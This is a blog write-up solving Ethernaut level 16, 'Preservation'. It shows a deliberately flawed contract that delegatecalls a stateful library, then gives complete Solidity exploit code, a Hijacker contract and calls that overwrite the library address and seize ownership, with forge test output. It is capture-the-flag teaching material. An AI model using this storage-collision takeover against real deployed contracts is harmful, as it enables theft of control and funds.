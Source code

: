 ###########################
Ethernaut 16: Preservation
###########################
:date: 2023-09-17
:slug: ethernaut-16-preservation
:summary: What even *is* a library?
:tags: 
:author: capu
:featured_image:


Objective
=========
Become the contract owner

Code
====

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 6

    contract Preservation {
        // public library contracts
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner;
        uint256 storedTime;
        // Sets the function signature for delegatecall
        bytes4 constant setTimeSignature = bytes4(
            keccak256("setTime(uint256)")
        );

        constructor(
            address _timeZone1LibraryAddress,
            address _timeZone2LibraryAddress
        ) {
            timeZone1Library = _timeZone1LibraryAddress;
            timeZone2Library = _timeZone2LibraryAddress;
            owner = msg.sender;
        }

        // set the time for timezone 1
        function setFirstTime(uint256 _timeStamp) public {
            timeZone1Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }

        // set the time for timezone 2
        function setSecondTime(uint256 _timeStamp) public {
            timeZone2Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }
    }

    // Simple library contract to set the time
    contract LibraryContract {
        // stores a timestamp
        uint256 storedTime;

        function setTime(uint256 _time) public {
            storedTime = _time;
        }
    }

the level factory creates two instances of the ``LibraryContract`` and passes
them as constructor parameters.

Solution
========
there are two big smells with this one

- the library contract is, well, not a library. It uses the ``contract`` keyword
  and has a state of its own.
- the delegatecall'd contract doesn't have the same storage layout as the caller.

Hold on, what actually *is* a library?
--------------------------------------

    A library is a piece of code, usually implemented by someone else, exposing
    a programatical interface which runs in the same environment as the rest of
    *your* code and solves a particular problem

    > My abstractooor roomate

A point of contempt with this definition is wether a library can have *state* of
its own, that is, if it can store some information within itself, and
potentially use it to not be idempotent (having two identical calls cause
different effects).

Solidity thankfully allows us to defenestrate that point of nuance, and has a
much more concrete definition of library:

    Libraries are similar to contracts, but their purpose is that they are
    deployed only once at a specific address and their code is reused using the
    DELEGATECALL (CALLCODE until Homestead) feature of the EVM. This means that
    if library functions are called, their code is executed in the context of
    the calling contract [...] libraries are assumed to be stateless.

For layman implementors, this has a few consequences:

- If defining libraries with Solidity's ``library`` keyworkds and regular
  (or ``using..for``) calling syntax, I'll be spared the details, since
  it's a compile error to even define a non-constant state field in a library.
- If I want to use delegatecall manually, I will **not** have the same
  behaviour, nor the same safeguards, as above out of the box.

The contracts for this level try to do the latter without care for how
``DELEGATECALL`` actually works, ``delegatecall`` ing a contract that behaves as
it had a state of its own, when it actually is using the state of the calling
contract.

Concretely, the ``LibraryContract`` will set the first word of storage 
word of the Preservation storage to whatever I want, and what can I find
there?

.. code-block:: plain

    [I] > forge inspect --pretty  Preservation storageLayout
    | Name             | Type    | Slot | Offset | Bytes |
    |------------------|---------|------|--------|-------|
    | timeZone1Library | address | 0    | 0      | 20    |
    | timeZone2Library | address | 1    | 0      | 20    |
    | owner            | address | 2    | 0      | 20    |
    | storedTime       | uint256 | 3    | 0      | 32    |

... not the owner, sadly, but the first 20 bytes of the first word of storage is
where the ``timeZone1Library`` is stored. I can:

1. set it to some other ``Hijacker`` contract
2. call ``setFirstTime`` on the ``Preservation`` contract
3. ``Preservation`` will ``delegatecall``  to the the ``Hijacker``
4. this ``Hijacker`` will set the third storage slot to the attacker address.

The ``setFirstTime`` function takes a uint256 and not an ``address``, so I'll
have to do a bit of memory shuffling to get it just right:

.. code-block:: solidity
   :linenos: inline

    Hijacker hijacker = new Hijacker(attacker);
    uint256 spookyTimestamp = uint256(uint160(address(hijacker)));
    target.setFirstTime(spookyTimestamp);
    target.setFirstTime(0);

Awesome. But how should the ``Hijacker`` look like?

From above, I know the owner is in storage slot 3. So I should craft a contract
that writes to the third storage slot when a ``setTime(uint256)`` is called on
it:

.. code-block:: solidity
    :linenos: inline

    contract Hijacker {
        address private padding1;
        address private padding2;
        address private owner;
        address immutable private newOwner;

        constructor(address newOwner_){
            newOwner = newOwner_;
        }

        function setTime(uint256) public {
            owner = newOwner;
        }
    }

... let's check the storage layout:

.. code-block:: plain

    [I] > forge inspect --pretty  Hijacker storageLayout
    | Name     | Type    | Slot | Offset | Bytes |
    |----------|---------|------|--------|-------|
    | padding1 | address | 0    | 0      | 20    |
    | padding2 | address | 1    | 0      | 20    |
    | owner    | address | 2    | 0      | 20    |

... and run the thing:

.. code-block:: plain

    [I] > forge test --mc Preservation
    [⠊] Compiling...
    [⠆] Compiling 1 files with 0.8.21
    Running 1 test for test/16-Preservation.t.sol:PreservationSolution
    [PASS] testSolution() (gas: 2273944)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 922.32µs
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

😎
